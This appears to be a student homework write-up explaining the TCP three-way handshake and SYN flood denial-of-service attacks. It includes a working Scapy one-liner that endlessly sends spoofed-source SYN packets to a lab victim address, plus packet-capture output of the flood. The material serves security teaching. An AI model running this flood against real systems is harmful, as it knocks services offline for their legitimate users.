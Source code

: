 # MIE-SIB. Homework #1. 

### Theoretical overview

###### TCP/SYN Packet (TCP/SYN Flood)

A **SYN flood** is a form of denial-of-service attack in which an attacker sends a succession of SYN requests to a target's system in an attempt to consume enough server resources to make the system unresponsive to legitimate traffic.

Normally when a client attempts to start a TCP connection to a server, the client and server exchange a series of messages which normally runs like this:

1. The client requests a connection by sending a SYN (synchronize) message to the server.
2. The server acknowledges this request by sending SYN-ACK back to the client.
3. The client responds with an ACK, and the connection is established.

This is called the **TCP three-way handshake**, and is the foundation for every connection established using the TCP protocol.

![Normal work](http://upload.wikimedia.org/wikipedia/commons/thumb/9/9a/Tcp_normal.svg/220px-Tcp_normal.svg.png)

A **SYN flood attack** works by not responding to the server with the expected ACK code. The malicious client can either simply not send the expected ACK, or by spoofing the source IP address in the SYN, causing the server to send the SYN-ACK to a falsified IP address - which will not send an ACK because it "knows" that it never sent a SYN.

The server will wait for the acknowledgement for some time, as simple network congestion could also be the cause of the missing ACK, but in an attack increasingly large numbers of half-open connections will bind resources on the server until no new connections can be made, resulting in a denial of service to legitimate traffic. Some systems may also malfunction badly or even crash if other operating system functions are starved of resources in this way.

![SYN Flood](http://upload.wikimedia.org/wikipedia/commons/thumb/9/94/Tcp_synflood.png/220px-Tcp_synflood.png)


http://www.computrad.co.uk/blog/p.php?e=41



### 1. 

#### Using Scapy for performing TCP/SYN Flood.

	send(IP(src=RandIP('10.0.0.0/8'), dst='172.16.16.16')/TCP(sport=RandShort(), dport=80), loop=1) 

Scapy generates TCP SYN packets at a constant rate to the victim with address 172.16.16.16 on port 80, sourced from random spoofed addresses within the allowed management network (10.0.0.0/8). Appending the loop=1 parameter to scapy's send() command instructs it to regenerate and retransmit the packet at a constant rate indefinitely. 

On the victim router, we can see that the TCP connection queue is immediately exhausted: 

	02:15:49.007776 IP 10.183.157.9.35319 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.008966 IP 10.143.122.81.61439 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.010057 IP 10.23.145.69.45972 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.011082 IP 10.36.20.15.23697 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.012211 IP 10.237.52.92.34983 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.013442 IP 10.37.190.76.20831 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.014706 IP 10.36.141.23.4999 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.015997 IP 10.200.164.146.33124 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.017994 IP 10.131.175.162.38615 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.019118 IP 10.46.64.11.48947 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.020234 IP 10.133.81.101.52032 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.021436 IP 10.253.244.76.18717 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.022464 IP 10.66.75.205.27219 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.023491 IP 10.202.188.247.11763 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.024614 IP 10.82.193.102.54673 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.025861 IP 10.150.235.34.29320 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.027553 IP 10.231.145.11.58377 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.029261 IP 10.145.105.136.60844 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0